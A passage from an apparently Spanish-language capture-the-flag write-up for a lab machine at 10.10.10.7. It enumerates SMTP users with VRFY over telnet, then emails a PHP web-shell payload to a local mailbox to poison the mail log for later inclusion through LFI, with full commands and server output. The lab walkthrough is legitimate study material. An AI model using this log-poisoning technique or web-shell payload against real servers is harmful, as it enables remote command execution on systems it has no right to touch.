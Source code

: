 ```shell
❯ telnet 10.10.10.7 25
Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
HELO
501 Syntax: HELO hostname
HELO wixnic
250 beep.localdomain
VRFY root@localhost
252 2.0.0 root@localhost
VRFY root
252 2.0.0 root
```

## SMTP Log Poisoning through LFI to RCE [Path #1]

Ya que el SMTP está abierto podemos intentar enviar correos electrónicos con código malicioso, este código malicioso se almacenará en los archivos de registro bajo `/var/mail/[nombre de usuario]`, ya tenemos nombres de usuario válidos así que podemos intentar hacer Log Poisoning vía SMTP y acceder al registro vía LFI.

Utilicemos telnet para enviar un correo electrónico:

```shell
telnet 10.10.10.7 25

HELO wixnic
MAIL FROM:<wixnic@helo.htb>
RCPT TO:<asterisk@localhost>
DATA
Message from telnet PHP code: <?php system($_REQUEST["telnet_cmd"]); ?>
.
QUIT
```

Así se ve la salida de cada entrada:

```shell
❯ telnet 10.10.10.7 25

Trying 10.10.10.7...
Connected to 10.10.10.7.
Escape character is '^]'.
220 beep.localdomain ESMTP Postfix
HELO wixnic
250 beep.localdomain
MAIL FROM:<wixnic@helo.htb>
250 2.1.0 Ok
RCPT TO:<asterisk@localhost>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
Message from telnet PHP code: <?php system($_REQUEST["telnet_cmd"]); ?>
.
250 2.0.0 Ok: queued as 37235D92FD
QUIT
221 2.0.0 Bye
Connection closed by foreign host.
```
